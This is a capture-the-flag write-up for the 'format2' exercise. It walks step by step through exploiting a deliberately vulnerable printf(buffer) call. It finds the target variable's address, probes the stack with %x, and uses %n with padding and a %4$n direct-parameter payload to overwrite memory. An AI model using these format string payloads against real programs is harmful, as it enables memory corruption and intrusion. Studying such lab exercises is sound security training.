 <h2>Goal</h2>
The goal of this challenge, and the process to determine the solution is almost identical as the last challenege, Format1.  The different here is to change the value of Taret to a specific value.

```c
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
```

<h2>Process</h2>

First up find the address for the `target` variable. 
```bash
objdump -t format2 | grep target

target = 080496e4
```

Next is to find where we can overwrite memory.

```bash
python -c 'print "AAAA"+"%x "*100' | ./format2

AAAA200 b7fd8420 bffff614 41414141 25207825 78252078...... repeating and some garbage.
```
This time we had control much sooner. This value is small so it can be easily counted, we get control at the fourth address.

```bash
python -c 'print "AAAA"+"%x "*4' | ./format2 

AAAA200 b7fd8420 bffff614 41414141
````

Now lets fit in the address of target.

```bash
 python -c 'print "\xe4\x96\x04\x08"+"%x"*4' | ./format2
 
��200b7fd8420bffff61480496e4
target is 0 :(
```
Ok, we've got everything setup. Now let's remove one of the `"%x "` and replace it with the required `"%n "`

```bash
python -c 'print "\xe4\x96\x04\x08"+"%x"*3+"%n"' | ./format2

��200b7fd8420bffff614
target is 23 :(
```

While the value of target is not 64, we have changed it to 23.  Now to increase this value we can add some padding to the format portion like so: `"%4x "` the 4 can be changed as needed to increase or decrease the outcome. For me the value of 4 incremented `target` by one to 24. So I then added ten:

```bash
python -c 'print "\xe4\x96\x04\x08"+"%10x"*3+"%n"' | ./format2

��       200  b7fd8420  bffff614
target is 34 :(
```



<h2>Solution</h2>
Next I just guessed and added another 10, making the padding 20.

```bash
python -c 'print "\xe4\x96\x04\x08"+"%20x"*3+"%n"' | ./format2

��                 200            b7fd8420            bffff614
you have modified the target :)
```

After examining the output and my padding I understood why this much padding work, its just some quick easy math.  Take 20 and 3 from `"%20x"*3` and we get 60 extra bytes of padding. Then 4 bytes for the address.

Another way to do this is.

```bash
python -c 'print "\xe4\x96\x04\x08"+"%x%x%x%n"' | ./format2

��200b7fd8420bffff614
target is 23 :(
```

From here we can replace the first `%x` with the padding `%4x`.  Some trial and error will be needed to get the exact padding again.

```bash
python -c 'print "\xe4\x96\x04\x08"+"%44x%x%x%n"' | ./format2

��                                         200b7fd8420bffff614
you have modified the target :)

```


Another way is
```bash
python -c 'print "\xe4\x96\x04\x08"+"%60c%4$n"' | ./format2
��                                                           
you have modified the target :)
```






